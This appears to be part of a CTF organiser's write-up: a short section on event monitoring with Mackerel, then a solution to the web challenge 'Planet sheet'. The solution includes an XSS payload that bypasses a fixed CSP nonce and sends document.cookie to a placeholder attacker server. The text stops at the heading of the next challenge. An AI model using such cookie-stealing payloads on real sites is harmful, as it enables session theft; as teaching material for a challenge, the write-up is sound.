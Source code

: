 ### Monitoring

For monitoring and alerting I inspired from @theoremoon san in Zer0ptsCTF and used [Mackerel](https://mackerel.io) . 

![DASHBOARD](https://i.imgur.com/BHHTuwV.png)

It is easy to setup and supports alerting via different channels ( including Discord ) so I installed the agent in the most critical servers of the infra which helped us a lot in handling and anticipating the different issues.

![MONITOR](https://i.imgur.com/82gqHiE.png)

In case of any alerts we receive a similar message in discord:

![ALERT](https://i.imgur.com/hiKJuMO.png)

# Web Challenges Writeup:
## Planet sheet:

I thought that this challenge will be a good warm up but some players ended up having some troubles with it. Visiting the website we can notice /show.php page that has a src parameter getting reflected directly in the page:

![REFLECTED](https://i.imgur.com/7zGxIBp.png)

We can notice that the Content-Type is **text/xsl** so usual script tags won't work here since it's not rendered as an HTML Page.

![CT](https://i.imgur.com/ikGS9Pk.png)
So we will use the following payload to execute JS code.

```
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>

```

A keen eye may have already noticed the CSP. For the first time it may appear as a strict policy protected by nonces but if we refresh the page for a few times, we can see that the nonce is fixed thus we can reuse it here.

```
<x:script nonce="Y8Ret8N5CPXrSG" xmlns:x="http://www.w3.org/1999/xhtml">fetch("http://Your_Server?a="+document.cookie)</x:script>

```

## BrokenParr0t

![CARD](https://i.imgur.com/UFecnMQ.png)

